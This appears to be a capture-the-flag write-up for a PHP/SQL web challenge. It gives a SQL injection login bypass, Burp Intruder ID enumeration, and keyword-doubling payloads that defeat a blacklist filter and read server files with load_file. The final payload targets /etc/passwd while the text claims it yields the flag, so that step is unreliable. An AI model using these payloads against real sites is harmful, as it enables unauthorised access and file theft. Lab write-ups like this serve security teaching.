 #SecretDoor

**Category:** Web
**Points:** 50

**Description:**

There's this crazy friend of mine that recently got into web designing using php and sql. he also created a page for a company. but he said that he can access to anyfile in anyplace whenever he wants, when he is logged in his account. can you find the backdoor in this page that can access to files in another directories. and I almost forgot, his name is 'john'. it's not it's login name, but sure you can find it. and remember your job is to read me the /home/flag.txt file!!!

##SecretDoor-Solution

not ready yet.

**but if you're eager to know, here is a little hint:**

It is a combination of Blind/Union SQL Injection, Directory traversal vulnerabilities. First a sql-injection in first page (blind sqli).

```
username:	john")) or 1 limit 0,1 #
password:	<anything>
```

And we will be redirected to ```welcome.php```. As the description said, There is a secret door that is accessible only when we are login as john. so we should find a way to login as john.

In the login page there is no way to bypass it and then read values in database, because there is a length-filter on inputs of username/password. if lenght of username|password is more than 23, there will be no sql-fetch.
So we should find another way in. what if we work with ```limit 0,1```. It means, What if we find the id of john and set query on that id. for example if id of john is '7', we can use:

```
john")) or 1 limit 7,1 #
```

Finding ID for john
--

As the description said, his name is john. Also there is a url for seeing our profile: ```/profile.php?id=1```
Also we can see other users profile by changing the value of ```id```. But the problem is there are a lot of IDs on the database. so we should run a script to find the id of john.

But there is a better solution, fire up burp, send a request to ```/profile.php?id=1```, now capture it using burp, send it to intruder, set a variable on ```id```, now use a range of 1-2000, and at last grep on the name 'john'.
Now Start intruder.

by this method we can find the id of 'john', now it's time to login as john:

```
john")) or 1 limit 1298,1 #
```

Now if we look out on our profile we see that we are logged in as 'john'.

Finding a way to read ```/home/flag.txt```
--

Now that we are login as john, we can check for vulnerable fields and parameters. looks like search.php is vulnerable now (to sql injection).
Ok! so we can read ```/home/flag.txt``` using sql ```read_file``` command.

But this field has a simple waf filtering going on. here is a php-code for filtering section:

```php
<?php
	function blacklist($id)
	{
	$id= preg_replace('/or/i',"", $id);			
	$id= preg_replace('/and/i',"", $id);		
	$id= preg_replace('/load_file/i',"", $id);		
	$id= preg_replace('/union/i',"", $id);		
	$id= preg_replace('/order/i',"", $id);		
	$id= preg_replace('/select/i',"", $id);
	while (preg_match('/flag/', $id))
		{
			$id= preg_replace('/flag/',"", $id);
		}
	return $id;
	}
?>
```

We can bypass this filtering easily by just using method like this: ```oorr``` will become ```or``` and etc.
 
SO the query in search.php, should be like this:

```
-1%' oorr 1=2 uniunionon selselectect 1,(seselectlect loaload_filed_file('/etc/passwd')),3#
```

But this doesn't work. We should find a way to read it. And we can do that by hexing the '/etc/passwd'. so the last query will look like this:

```
-1%' oorr 1=2 uniunionon selselectect 1,(seselectlect loaload_filed_file(0x2f6574632f706173737764)),3#
```

And we will see the flag: **SQLI_is_M0R3_Than_AweS0M3**


